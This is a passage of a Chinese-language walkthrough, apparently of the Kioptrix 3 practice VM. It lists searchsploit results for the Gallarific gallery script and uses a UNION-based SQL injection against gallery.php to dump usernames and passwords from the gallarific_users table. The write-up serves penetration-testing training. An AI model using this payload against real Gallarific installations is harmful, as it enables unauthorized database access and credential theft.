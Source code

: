 ```
Gallarific - 'user.php' Arbirary Change Admin Information                                                                                                                                                 | php/webapps/8796.html
Gallarific - Multiple Script Direct Request Authentication Bypass                                                                                                                                         | php/webapps/31370.txt
Gallarific 1.1 - '/gallery.php' Arbitrary Delete/Edit Category                                                                                                                                            | php/webapps/9421.txt
GALLARIFIC PHP Photo Gallery Script - 'gallery.php' SQL Injection                                                                                                                                         | php/webapps/15891.txt
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

发现有个SQL注入，让我们用-m参数将它保存到我们当前目录，查看它，这里有提到/gadmin/index.php的一个页面

```
===[ Exploit ]===

www.site.com/gallery.php?id=null[Sql Injection]

www.site.com/gallery.php?id=null+and+1=2+union+select+1,group_concat(userid,0x3a,username,0x3a,password),3,4,5,6,7,8+from+gallarific_users--

===[ Admin Panel ]===

www.site.com/gadmin/index.php
```

```
http://kioptrix3.com/gallery/gallery.php?id=null+and+1=2+union+select+1,group_concat(userid,0x3a,username,0x3a,password),3,4,5,6+from+gallarific_users--
```

这里返回了一个登录凭证

<figure><img src="../../.gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>
